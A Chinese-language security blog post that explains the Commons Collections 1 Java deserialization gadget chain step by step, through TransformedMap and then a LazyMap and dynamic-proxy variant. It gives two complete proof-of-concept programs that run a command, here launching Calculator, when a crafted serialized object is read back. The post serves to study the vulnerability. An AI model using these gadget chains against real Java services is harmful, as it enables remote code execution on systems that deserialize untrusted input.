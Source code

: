 # CommonsCollections1链详解

     
     
比较难一点的CC链     
&lt;!--more--&gt;  
# CommonsCollections1链详解  
jdk8源码下载  
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4  
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`  
其中的`transform()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)
很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数  
看一下构造器是如何赋值的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)
构造一个简单的 payload 试试  
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)
找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)
`valueTransformer`变量可控  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)
但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)
再查看一下哪里调用了`checkSetValue()`方法，只有这一处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)
`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();    
map.put(&#34;key&#34;,&#34;value&#34;);    
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
for(Map.Entry entry:transformedMap.entrySet()){    
    entry.setValue(r);  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)
接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)
这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();    
map.put(&#34;key&#34;,&#34;value&#34;);    
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);    
annotationInvocationhandleconstructor.setAccessible(true);    
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);  
```  
但是这里存在两个问题  
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程  
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)
简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入  
```java  
Transformer[] transformers = new Transformer[]{    
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
还有一个问题，无法控制`setValue()`里面的参数值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png) 
这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)
所以完善一下上面的`poc`  
```java  
Transformer[] transformers = new Transformer[]{  
		new ConstantTransformer(Runtime.class),  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
于是完整的`poc`如下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollection1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
        chainedTransformer.transform(Runtime.class);    
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        map.put(&#34;value&#34;,&#34;value&#34;);    
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer);   
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);    
        serialize(o);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)
整个调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151320208.png)
**注**  
这里为什么要用`Target`  
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`  
因为`Target`中有值是`value`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)
这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)
`map.put(&#34;value&#34;,&#34;value&#34;);`  
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件  
  
## 另一条  
在上面选择任意类执行`transform`方法的时候，选择了`TransformedMap`  
这次选择另一个类`LazyMap`中的`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151446822.png)
再看一下哪里调用了`get()`方法，恰好在`AnnotationInocationHandler`类中的`inoke()`方法中调用了`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151448743.png)
而恰好`memberValues`也是可控的，那如何调用到`invoke()`方法呢？  
这里需要一个新的知识点，动态代理，将`AnnoationInvocationHandler`动态代理，执行任意方法，即可调用到`invoke`方法，但是根据 invoke 中的`if`条件，执行的任意方法必须是无参的，恰好在`AnnotationInvocationHandler`类中的`readObject()`方法中，有这样的方法存在  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/20240115145104.png)
于是根据上面的`poc`修改一下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.lang.reflect.InvocationHandler;    
import java.lang.reflect.Proxy;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object,Object&gt; lazymap = LazyMap.decorate(map,chainedTransformer);    
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        InvocationHandler h = (InvocationHandler) AnnotationInvocationHandlerConstructor.newInstance(Target.class,lazymap);    
    
        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);    
    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,proxyMap);    
    
        serialize(o);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151459198.png)
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections1%E9%93%BE%E8%AF%A6%E8%A7%A3/  

